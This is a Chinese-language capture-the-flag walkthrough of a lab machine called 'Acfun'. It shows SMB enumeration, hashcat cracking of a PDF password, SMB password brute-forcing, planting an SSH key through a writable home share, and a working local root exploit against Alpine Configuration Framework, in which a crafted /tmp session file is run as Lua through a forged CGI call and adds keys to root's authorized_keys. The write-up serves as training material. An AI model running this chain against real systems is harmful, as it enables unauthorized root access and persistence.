



# 信息收集

```
nmap -p-  192.168.100.66
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-27 01:51 EDT
Nmap scan report for 192.168.100.66
Host is up (0.0035s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:61:83:E3 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 13.79 seconds
```

# 445

直接匿名试试

```
smbclient -L //192.168.100.66 -N

        Sharename       Type      Comment
        ---------       ----      -------
        public          Disk    
        IPC$            IPC       IPC Service (Samba Server)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP          
                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~/Desktop/poc]
└─$ smbclient //192.168.100.66/public -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Apr 26 04:04:33 2026
  ..                                  D        0  Sun Apr 26 04:04:33 2026
  ACF_Framework_Internal_Guide.pdf      N     3020  Sun Apr 26 04:04:25 2026

                9468048 blocks of size 1024. 708272 blocks available
smb: \> 
```

# PDF

发现pdf带有加密利用hashcat进行爆破

```
pdf2john ACF_Framework_Internal_Guide.pdf > pdf.hash
```

cat pdf.hash

```
ACF_Framework_Internal_Guide.pdf:$pdf$2*3*128*2147483644*1*16*eaf858bf9a202826f048f9e8927c33c0*32*b638e2822a306edc2e0d5f04c4fd0ef000000000000000000000000000000000*32*3863fe1ffbc881b421b301c8c0cd614a0c9bb69ed8341f042a3348c507d3a522
```

hashcat 需要去掉文件名部分：

hashcat.exe -m 10500 pdf.hash  rockyou.txt --force

```
Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory allocated for this attack: 793 MB (9540 MB free)

Dictionary cache hit:
* Filename..: rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$pdf$2*3*128*2147483644*1*16*eaf858bf9a202826f048f9e8927c33c0*32*b638e2822a306edc2e0d5f04c4fd0ef000000000000000000000000000000000
*32*3863fe1ffbc881b421b301c8c0cd614a0c9bb69ed8341f042a3348c507d3a522:1234567890

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10500 (PDF 1.4 - 1.6 (Acrobat 5 - 8))
Hash.Target......: $pdf$2*3*128*2147483644*1*16*eaf858bf9a202826f048f9...d3a522
Time.Started.....: Mon Apr 27 14:08:10 2026, (0 secs)
Time.Estimated...: Mon Apr 27 14:08:10 2026, (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-32 bytes)
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:        0 H/s (0.00ms) @ Accel:521 Loops:70 Thr:32 Vec:1
Speed.#02........:   932.9 kH/s (12.13ms) @ Accel:58 Loops:70 Thr:32 Vec:1
Speed.#*.........:   932.9 kH/s
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 414981/14344384 (2.89%)
Rejected.........: 5/414981 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#01..: Salt:0 Amplifier:0-1 Iteration:0-70
Restore.Sub.#02..: Salt:0 Amplifier:0-1 Iteration:0-70
Candidate.Engine.: Device Generator
Candidates.#01...: donny -> ilove007
Candidates.#02...: 123456 -> drowssap1
Hardware.Mon.#01.: Temp: 54c Util: 84% Core:2370MHz Mem:8101MHz Bus:8
Hardware.Mon.#02.: N/A

Started: Mon Apr 27 14:08:03 2026
Stopped: Mon Apr 27 14:08:11 2026
```

得到密码1234567890

打开文档

```
Subject: Standardized Alpine Configuration
Framework (ACF) Deployment
Author Mail: leaf@acfun.dsz
Reference: https://wiki.alpinelinux.org/wiki/ACF
Security Level: Classified / Staff Only
1. Introduction to ACF
The Alpine Configuration Framework (ACF) is a specialized framework designed to provide a
web-based interface for managing Alpine Linux systems. It operates as a collection of Lua-based
applications that interact with the system's configuration files through a secure web server.
2. Core Components
The deployment requires the following core packages to be initialized on the target node:
• acf-core: The base framework and libraries.
• acf-lib: Common functions used by ACF applications.
• haserl: A CGI wrapper for dynamic web content.
3. Deployment Instructions
To initialize the framework for our internal acfun.dsz services, run the following commands as root:
apk update && apk add acf-core acf-lib
setup-acf
4. Security Compliance
All configuration modifications through the ACF interface are logged. Users must ensure that their
local environment variables are set to the corporate standard before accessing the framework.
Authorized by: Global Infrastructure Division
```

发现用户名直接爆破  尝试ssh爆破发现有限制 然后去爆破了smb

```
netexec smb 192.168.100.66 -u leaf -p 10000.txt --local-auth --no-progress
```



```
leaf:gothic
```

发现靶机上的不能用 我直接用自己的

```
smbclient //192.168.100.66/leaf -U leaf
Password for [WORKGROUP\leaf]:
Try "help" to get a list of possible commands.
smb: \> cd .ssh
smb: \.ssh\> ls
  .                                   D        0  Sun Apr 26 04:10:23 2026
  ..                                  D        0  Mon Apr 27 03:11:35 2026
  id_ed25519.pub                      N       92  Sun Apr 26 04:09:15 2026
  id_ed25519                          N      399  Sun Apr 26 04:09:15 2026

                9468048 blocks of size 1024. 708236 blocks available
smb: \.ssh\> get id_ed25519
getting file \.ssh\id_ed25519 of size 399 as id_ed25519 (43.3 KiloBytes/sec) (average 43.3 KiloBytes/sec)
smb: \.ssh\> put /home/kali/.ssh/id_ed25519.pub authorized_keys
putting file /home/kali/.ssh/id_ed25519.pub as \.ssh\authorized_keys (11.1 kb/s) (average 11.1 kb/s)
smb: \.ssh\> ls
  .                                   D        0  Mon Apr 27 03:16:23 2026
  ..                                  D        0  Mon Apr 27 03:11:35 2026
  id_ed25519.pub                      N       92  Sun Apr 26 04:09:15 2026
  authorized_keys                     A       91  Mon Apr 27 03:16:23 2026
  id_ed25519                          N      399  Sun Apr 26 04:09:15 2026

                9468048 blocks of size 1024. 708232 blocks available
smb: \.ssh\> 
```

```
sudo cat /home/kali/.ssh/id_ed25519.pub 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBK47EAyAcDqxMYzZBPCGRGYrfsvIRWPfDb8cAhu6tJo kali@kali
```



# mini_httpd

```
grep -RIn 'mini_httpd\|cgipat\|dir=' /etc/mini_httpd /etc/init.d/mini_httpd
/etc/mini_httpd/mini_httpd.conf:2:dir=/usr/share/acf/www
/etc/mini_httpd/mini_httpd.conf:4:cgipat=cgi-bin**
/etc/mini_httpd/mini_httpd.conf:5:certfile=/etc/ssl/mini_httpd/server.pem
/etc/init.d/mini_httpd:7:cfgfile=/etc/mini_httpd/$RC_SVCNAME.conf
/etc/init.d/mini_httpd:8:pidfile=/run/mini_httpd/$RC_SVCNAME.pid
/etc/init.d/mini_httpd:9:command=/usr/sbin/mini_httpd
```

Web 根目录：/usr/share/acf/www

CGI 入口：cgi-bin

# 确认 CGI 实际入口

查看 CGI 文件

```
leaf@Acfun:/tmp$ sed -n '1,220p' /usr/share/acf/www/cgi-bin/acf
#!/usr/bin/haserl-lua5.4 --shell=lua --upload-limit=256
<%
mvc = require("acf.mvc")

-- create a new container
FRAMEWORK=mvc:new()

-- set the configuration parameters
-- This loads the container with the config info
-- but does not load the application worker/model
FRAMEWORK:read_config("acf")

-- Create an application container -
-- loads the application controller/model code
APP=FRAMEWORK:new("acf_www")

-- Dispatch the application
APP:dispatch()
APP:destroy()
FRAMEWORK:destroy()
%>
```

入口由 haserl-lua 执行  业务逻辑最终交给 acf_www 控制器

# 确认 session 文件存储位置

```
leaf@Acfun:/tmp$ sed -n '1,260p' /usr/share/acf/app/acf_www-controller.lua
--[[ Code for the Alpine Configuration WEB framework
      see http://wiki.alpinelinux.org
      Copyright (C) 2007  Nathan Angelacos
      Licensed under the terms of GPL2
   ]]--
-- Required global libraries

local mymodule = {}

-- This is not in the global namespace, but future
-- require statements shouldn't need to go to the disk lib
posix = require("posix")

-- We use the parent exception handler in a last-case situation
local parent_exception_handler
local parent_create_helper_library
local parent_view_resolver

local function build_menus(self)
        m=require("menubuilder")
        roll = require ("roles")

        -- Build the permissions table
        local roles = {}
        if self.sessiondata.userinfo and self.sessiondata.userinfo.roles then
                roles = self.sessiondata.userinfo.roles
        end
        local permissions = roll.get_roles_perm(self,roles)
        self.sessiondata.permissions = permissions

        --Build the menu
        local cats = m.get_menuitems(self)
        -- now, loop through menu and remove actions without permission
        -- go in reverse so we can remove entries while looping
        for x = #cats,1,-1 do
                local cat = cats[x]
                for y = #cat.groups,1,-1 do
                        local group = cat.groups[y]
                        for z = #group.tabs,1,-1 do
                                local tab = group.tabs[z]
                                if nil == permissions[tab.prefix] or nil == permissions[tab.prefix][tab.controller] or nil == permissions[tab.prefix][tab.controller][tab.action] then
                                        table.remove(group.tabs, z)
                                end
                        end
                        if 0 == #group.tabs then
                                table.remove(cat.groups, y)
                        end
                end
                if 0 == #cat.groups then
                        table.remove(cats, x)
                end
        end
        self.sessiondata.menu = {}
        self.sessiondata.menu.cats = cats

        -- Debug: Timestamp on menu creation
        self.sessiondata.menu.timestamp = {tab="Menu_created: " .. os.date(),action="Menu_created: " .. os.date(),}
end

-- look for a template
-- ctlr-action-view, then  ctlr-view, then action-view, then view
local find_template
find_template = function ( appdir, prefix, controller, action, viewtype )
        if string.find(appdir, ",") then
                local template
                for p in string.gmatch(appdir, "[^,]+") do
                        template = find_template(p, prefix, controller, action, viewtype)
                        if template then break end
                end
                return template
        end

        local targets = {
                        appdir .. prefix .. "template-" .. controller .. "-" ..
                                action .. "-" .. viewtype .. ".lsp",
                        appdir .. prefix .. "template-" .. controller .. "-" ..
                                viewtype .. ".lsp",
                        appdir .. prefix .. "template-" .. action .. "-" ..
                                viewtype .. ".lsp",
                        appdir .. prefix .. "template-" .. viewtype .. ".lsp"
                        }
        local file
        for k,v in pairs(targets) do
                file = io.open (v)
                if file then
                        io.close (file)
                        return v
                end
        end
        -- not found, so try one level higher
        if prefix == "/" then -- already at the top level - fail
                return nil
        end
        prefix = posix.dirname (prefix)
        return find_template ( appdir, prefix, controller, action, viewtype )
end

-- This function is made available within the view to allow loading of components
local dispatch_component = function(self, str, clientdata, suppress_view)
        -- Before we call dispatch, we have to set up conf and clientdata like it was really called for this component
        local tempconf = self.conf
        self.conf = {}
        for x,y in pairs(tempconf) do
                self.conf[x] = y
        end
        self.conf.component = true
        self.conf.suppress_view = suppress_view
        self.conf.orig_action = self.conf.orig_action or self.conf.prefix .. self.conf.controller .. "/" .. self.conf.action
        local tempclientdata = self.clientdata
        self.clientdata = clientdata or {}
        self.clientdata.sessionid = tempclientdata.sessionid

        local prefix, controller, action = self.parse_redir_string(str)
        if prefix == "/" then prefix = self.conf.prefix end
        if controller == "" then controller = self.conf.controller end
        local viewtable = self.dispatch(self, prefix, controller, action)

        -- Revert to the old conf and clientdata
        self.conf = nil
        if not (self.conf) then self.conf = tempconf end
        self.clientdata = nil
        if not (self.clientdata) then self.clientdata = tempclientdata end

        return viewtable
end

local has_view = function(self)
        for p in string.gmatch(self.conf.appdir, "[^,]+") do
                local file = posix.stat(p .. self.conf.prefix .. self.conf.controller .. "-" .. self.conf.action .. "-" .. self.conf.viewtype .. ".lsp", "type")
                if file == "regular" or file == "link" then return true end
        end
        return false
end

-- If we've done something, cause a redirect to the referring page (assuming it's different)
-- Also handles retrieving the result of a previously redirected action
local redirect_to_referrer = function(self, result)
        if self.conf.viewtype ~= "html" then
                return result
        end
        if result and not self.conf.component then
                -- If we have a result, then we did something, so we might have to redirect
                if self.conf.orig_action then
                        local p = self.conf.orig_action:gsub("%%(%x%x)",
                                function(h) return string.char(tonumber(h, 16)) end )
                        local prefix, controller, action, extra = self.parse_redir_string(p)
                        if prefix ~= self.conf.prefix or controller ~= self.conf.controller or action ~= self.conf.action then
                                self.sessiondata[self.conf.action.."result"] = result
                                error({type="redir", prefix=prefix, controller=controller, action=action, extra=extra})
                        end
                elseif not ENV.HTTP_REFERER then
                        -- If no referrer, we have a potential problem.
                        if not self.find_view(self.conf.appdir, self.conf.prefix, self.conf.controller, self.conf.action, self.conf.viewtype or "html") then
                                -- Action does not have view, so redirect to default action for this controller.
                                self:redirect()
                        end
                else
                        local p = ENV.HTTP_REFERER:gsub("%?.*", ""):gsub("%%(%x%x)",
                                function(h) return string.char(tonumber(h, 16)) end )
                        local prefix, controller, action = self.parse_path_info(p)
                        if prefix ~= self.conf.prefix or controller ~= self.conf.controller or action ~= self.conf.action then
                                self.sessiondata[self.conf.action.."result"] = result
                                error({type="redir_to_referrer"})
                        end
                end
        elseif self.sessiondata[self.conf.action.."result"] then
                -- If we don't have a result, but there's a result in the session data,
                -- then we're a component redirected as above.  Return the last result.
                result = cfe(self.sessiondata[self.conf.action.."result"])
                self.sessiondata[self.conf.action.."result"] = nil
        end
        return result
end

mymodule.check_permission = function(self, prefix, controller, action)
        --self.logevent("Trying "..(prefix or "/")..(controller or "nil").."/"..(action or "nil"))
        if nil == self.sessiondata.permissions then return false end
        if prefix and controller then
                if nil == self.sessiondata.permissions[prefix] or nil == self.sessiondata.permissions[prefix][controller] then return false end
                if action and nil == self.sessiondata.permissions[prefix][controller][action] then return false end
        end
        return true
end

mymodule.check_permission_string = function (self, str)
        local prefix, controller, action = self.parse_redir_string(str)
        if prefix == "/" then prefix = self.conf.prefix end
        if controller == "" then controller = self.conf.controller end

        if "" == action then
                action = rawget(self.worker, "default_action") or ""
        end
        return self:check_permission(prefix, controller, action)
end

-- Override the mvc create_helper_library function to add our functions
mymodule.create_helper_library = function ( self )
        -- Call the mvc version
        local library = parent_create_helper_library(self)
--[[    -- If we have a separate library, here's how we could do it
        local library = require("library_name")
        for name,func in pairs(library) do
                if type(func) == "function" then
                        library.name = function(...) return func(self, ...) end
                end
        end
--]]
        library.dispatch_component = function(...) return dispatch_component(self, ...) end
        library.check_permission = function(...) return self:check_permission_string(...) end
        return library
end

-- Our local view resolver called by our dispatch - add the template and skin
mymodule.view_resolver = function(self)
        self.conf.viewtype = self.conf.viewtype or "html"
        local viewfunc, viewlibrary, pageinfo = parent_view_resolver(self)
        pageinfo.viewfunc = viewfunc
        pageinfo.skinned = self.clientdata.skinned or "true"

        if self.sessiondata.userinfo and self.sessiondata.userinfo.skin and self.sessiondata.userinfo.skin ~= "" then
                pageinfo.skin = self.sessiondata.userinfo.skin
        else
                pageinfo.skin = self.conf.skin or ""
        end

        -- search for template
        local template
        if self.conf.component ~= true then
                -- First, check for skin-specific template
                if pageinfo.skin ~= "" then
                        template = find_template ( self.conf.wwwdir..pageinfo.skin, "/",
                                self.conf.controller, self.conf.action, self.conf.viewtype )
                end
                if not template then
                        template = find_template ( self.conf.appdir, self.conf.prefix,
                                self.conf.controller, self.conf.action, self.conf.viewtype )
                end
        end

        local func = viewfunc
        if template then
                -- We have a template, use it as the function
                func = haserl.loadfile (template)
        end

        return func, viewlibrary, pageinfo, self.sessiondata
end

mymodule.mvc = {}
mymodule.mvc.on_load = function (self, parent)
        -- open the log file
        if self.conf.logfile then
                self.conf.loghandle = io.open (self.conf.logfile, "a+")
        end

        --self.logevent("acf_www-controller mvc.on_load")

        -- Make sure we have some kind of sane defaults for libdir, wwwdir, and sessiondir
        self.conf.libdir = self.conf.libdir or ( string.match(self.conf.appdir, "[^,]+/") .. "/lib/" )
        self.conf.wwwdir = self.conf.wwwdir or ( string.match(self.conf.appdir, "[^,]+/") .. "/www/" )
```

关键代码：

```
self.conf.sessiondir = self.conf.sessiondir or "/tmp/"

if nil ~= self.clientdata.sessionid then
    timestamp, self.sessiondata =
        sessionlib.load_session(self.conf.sessiondir, self.clientdata.sessionid)
end
```

ACF 默认把 session 存在 /tmp

请求里只要可控 sessionid

就会加载 /tmp/session.<sessionid>

# 确认真正漏洞点：session.lua 中直接执行 session 文件

```
leaf@Acfun:/tmp$ sed -n '1,260p' /usr/share/acf/lib/session.lua
-- Session handling routines - written for acf
-- Copyright (C) 2007 N. Angelacos - GPL2 License

--[[ Note that in this library, we use empty (0 byte) files
-- everwhere we can, as they only take up dir entries, not inodes
-- as the tmpfs blocksize is 4K, and under denial of service
-- attacks hundreds or thousands of events can come in each
-- second, we could end up in a disk full condition if we did
-- not take this precaution.
-- ]]--

local mymodule = {}

posix = require("posix")

minutes_expired_events=30
minutes_count_events=30
limit_count_events=10

cached_content=nil

local b64 = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789_-"

-- Return a sessionid of at least size bits length
mymodule.random_hash = function (size)
        local file = io.open("/dev/urandom")
        local str = ""
        if file == nil then return nil end
        while (size > 0 ) do
                local offset = (string.byte(file:read(1)) % 64) + 1
                str = str .. string.sub (b64, offset, offset)
                size = size - 6
        end
        return str
end

-- FIXME: only hashes ipv4
mymodule.hash_ip_addr = function (ip)
        local str = ""
        for i in string.gmatch(ip or "", "%d+") do
                str = str .. string.format("%02x", i )
        end
        return str
end

mymodule.ip_addr_from_hash = function (hash)
        local str = ""
        for i in string.gmatch(hash or "", "..") do
                str = str .. string.format("%d", "0x" .. i) .. "."
        end
        return string.sub(str, 1, string.len(str)-1)
end

--[[
        These functions serialize a table, including nested tables.
        The code based on code in PiL 2nd edition p113
]]--
local function basicSerialize (o)
        if type(o) == "number" then
                return tostring(o)
        else
                return string.format("%q", o)
        end
end

mymodule.serialize = function(name, value, saved, output )
        local need_to_concat = (output == nil)
        output = output or {}
        saved = saved or {}
        local str = name .. " = "
        if type(value) == "number" or type(value) == "string" then
                table.insert(output, str .. basicSerialize (value))
        elseif type(value) == "table" then
                if saved[value] then
                        table.insert(output, str .. saved[value])
                else
                        saved[value] = name
                        table.insert(output, str .. "{}")
                        for k,v in pairs(value) do
                                local fieldname = string.format("%s[%s]", name, basicSerialize(k))
                                mymodule.serialize (fieldname, v, saved, output)
                        end
                end
        elseif type(value) == "boolean" then
                table.insert(output, str .. tostring(value))
        else
                table.insert(output, str .. "nil")       -- cannot save other types, so skip them
        end
        if need_to_concat then
                table.sort(output)
                return table.concat(output, "\n")
        end
        return
end

-- Save the session (unless all it contains is the id)
-- return true or false for success
mymodule.save_session = function( sessionpath, sessiontable)
        if nil == sessiontable or nil == sessiontable.id then return false end

        -- clear the id key, don't need to store that
        local id = sessiontable.id
        sessiontable.id = nil

        -- If the table only has an "id" field, then don't save it
        if #sessiontable then
                local output = {}
                output[#output+1] = "-- This is an ACF session table."
                output[#output+1] = "local " .. mymodule.serialize("s", sessiontable)
                output[#output+1] = "return s"
                local content = table.concat(output, "\n") .. "\n"

                -- want to avoid writing unless changed, becuase opening for write
                -- prevents simultaneous opening for read
                if content ~= cached_content then
                        local file = io.open(sessionpath .. "/session." .. id , "w")
                        if file == nil then
                                sessiontable.id=id
                                return false
                        end

                        file:write(content)
                        file:close()
                end
        end

        sessiontable.id=id
        return true
end

-- Loads a session
-- Returns a timestamp (when the session data was saved) and the session table.
-- Insert the session into the "id" field
mymodule.load_session = function ( sessionpath, session )
        if type(session) ~= "string" then return nil, {} end
        local s = {}
        -- session can only have b64 characters in it
        session = string.gsub ( session or "", "[^" .. b64 .. "]", "")
        if #session == 0 then
                return nil, {}
        end
        local spath = sessionpath .. "/session." .. session
        local ts = posix.stat(spath, "ctime")
        if (ts) then
                -- this loop is here because can't read file here if another process is writing it above
                -- and if this fails, it effectively logs the user off (writes back blank session data)
                local s
                for i=1,20 do
                        local file = io.open(spath)
                        if file then
                                cached_content = file:read("*a")
                                file:close()
                                local IS_52_LOAD = pcall(load, '')
                                if IS_52_LOAD then
                                        s = load(cached_content)()
                                else
                                        s = loadstring(cached_content)()
                                end
                                break
                        end
                        sleep(10*i)
                end

                s = s or {}
                s.id = session
                return ts, s
        else
                return nil, {}
        end
end

-- Unlinks a session (deletes the session file)
-- return nil for failure, ?? for success
mymodule.unlink_session = function (sessionpath, session)
        if type(session)  ~= "string" then return nil end
        local s = string.gsub (session, "[^" .. b64 .. "]", "")
        if s ~= session then
                return nil
        end
        session = sessionpath .. "/session." .. s
        local statos = os.remove (session)
        return statos
end

-- Record an invalid logon event
-- ID would typically be an ip address or username
-- the format is lockevent.id.datetime.processid
mymodule.record_event = function( sessionpath, id_u, id_ip )
        local x = io.open (string.format ("%s/lockevent.%s.%s.%s.%s",
                 sessionpath or "/", id_u or "", mymodule.hash_ip_addr(id_ip), os.time(),
                 (posix.getpid("pid")) or "" ), "w")
        io.close(x)
end

-- List invalid logon events
-- Can specify username and/or ip address to filter
mymodule.list_events =  function (sessionpath, id_user, ipaddr, minutes)
        local list = {}
        local now = os.time()
        local minutes_ago = now - ((minutes or minutes_count_events) * 60)
        local t = {}
        --give me all lockevents then we will sort through them
        local searchfor = sessionpath .. "/lockevent.*"
        local t = posix.glob(searchfor)

        local ipaddrhash = mymodule.hash_ip_addr(ipaddr)
        for a,b in pairs(t or {}) do
                if posix.stat(b,"mtime") > minutes_ago then
                        local user, ip, time, pid = string.match(b, "/lockevent%.([^.]*)%.([^.]*)%.([^.]*)%.([^.]*)$")
                        if user and (not id_user or id_user == user) and (not ipaddr or ipaddrhash == ip) then
                                list[#list+1] = {userid=user, ip=mymodule.ip_addr_from_hash(ip), time=time, pid=pid}
                        end
                end
        end
        return list
end

-- Check how many invalid logon events
-- have happened for this id in the last n minutes
mymodule.count_events = function (sessionpath, id_user, ipaddr, minutes, limit)
        local locked = false
        local list = mymodule.list_events(sessionpath, id_user, ipaddr, minutes)
        if #list>(tonumber(limit) or limit_count_events) then
                locked = true
        else
                locked = false
        end
        return locked
end

-- Clear events that are older than n minutes
mymodule.expired_events = function (sessionpath, minutes)
        --current os time in seconds
        local now = os.time()
        --take minutes and convert to seconds
        local minutes_ago = now - ((minutes or minutes_expired_events) * 60)
        local searchfor = sessionpath .. "/lockevent.*"
        --first do the lockevent files
        local temp = posix.glob(searchfor)
        if temp ~= nil then
                for a,b in pairs(temp) do
                        if posix.stat(b,"mtime") < minutes_ago then
                        os.remove(b)
                        end
                end
        end
        --now do the session files
        searchfor = sessionpath .. "/session.*"
        local temp = posix.glob(searchfor)
        if temp ~= nil then
                for a,b in pairs(temp) do
                        if posix.stat(b,"mtime") < minutes_ago then
                        os.remove(b)
                        end
                end
        end
        return 0
end

mymodule.delete_events = function (sessionpath, id_user, ipaddr)
```

sed -n '1,260p' /usr/share/acf/lib/session.lua

## 核心危险逻辑

```
mymodule.load_session = function ( sessionpath, session )
    if type(session) ~= "string" then return nil, {} end
    local s = {}
    session = string.gsub ( session or "", "[^" .. b64 .. "]", "")
    if #session == 0 then
        return nil, {}
    end
    local spath = sessionpath .. "/session." .. session
    local ts = posix.stat(spath, "ctime")
    if (ts) then
        local s
        for i=1,20 do
            local file = io.open(spath)
            if file then
                cached_content = file:read("*a")
                file:close()
                local IS_52_LOAD = pcall(load, '')
                if IS_52_LOAD then
                    s = load(cached_content)()
                else
                    s = loadstring(cached_content)()
                end
                break
            end
            sleep(10*i)
        end
        s = s or {}
        s.id = session
        return ts, s
    else
        return nil, {}
    end
end
```

漏洞根因非常明确：

leaf 可以在 /tmp 写任意文件

请求参数可以控制 sessionid

程序会去读取 /tmp/session.<sessionid>

然后直接执行：

```
load(cached_content)()
```

这意味着 session 文件不是纯数据，而是被当作 Lua 代码 执行。

因此，只要我们能写入：

/tmp/session.ABC123

并让请求使用：

sessionid=ABC123

就可以让 ACF 以其运行身份执行任意 Lua 代码。

先创建恶意 session 文件：

```
cat > /tmp/session.ABC123 <<'EOF' os.execute('id > /tmp/acf_rce_qs') return {} EOF 
```

然后手工伪造 CGI 环境，直接本地调用 ACF：

```
REQUEST_METHOD=GET \ QUERY_STRING='sessionid=ABC123' \ SCRIPT_NAME=/cgi-bin/acf \ PATH_INFO=/acf-util/welcome/read \ REMOTE_ADDR=127.0.0.1 \ GATEWAY_INTERFACE=CGI/1.1 \ SERVER_NAME=localhost \ SERVER_PORT=443 \ HTTPS=on \ /usr/share/acf/www/cgi-bin/acf >/tmp/acf_trigger.out 2>&1 
```

验证结果：

cat /tmp/acf_rce_qs

输出：

uid=0(root) gid=0(root) groups=0(root)

# 直接给 root 添加 SSH 公钥

此前已经把自己的公钥写进了 leaf 的目录下

```
/home/leaf/.ssh/authorized_keys
```

```
cat > /tmp/session.ROOTKEY <<'EOF'
os.execute('timeout 10 sh -c "mkdir -p /root/.ssh && cat /home/leaf/.ssh/authorized_keys >> /root/.ssh/authorized_keys && sort -u /root/.ssh/authorized_keys -o /root/.ssh/authorized_keys && chmod 700 /root/.ssh && chmod 600 /root/.ssh/authorized_keys"')
return {}
EOF
```

触发

```
REQUEST_METHOD=GET \
QUERY_STRING='sessionid=ROOTKEY' \
SCRIPT_NAME=/cgi-bin/acf \
PATH_INFO=/acf-util/welcome/read \
REMOTE_ADDR=127.0.0.1 \
GATEWAY_INTERFACE=CGI/1.1 \
SERVER_NAME=localhost \
SERVER_PORT=443 \
HTTPS=on \
/usr/share/acf/www/cgi-bin/acf >/dev/null 2>&1
```

```
ssh -i ~/.ssh/id_ed25519 root@192.168.100.66
```



```
root@Acfun:~# cat root.txt 
flag{root-e0694a86a8214b57d9bc3f8dae30bf33}
root@Acfun:~# cat /home/
leaf/  xueli/ 
root@Acfun:~# cat /home/xueli/user.txt 
flag{user-a7048bfa96c2a4bbd4fbf76465e645fb}
```
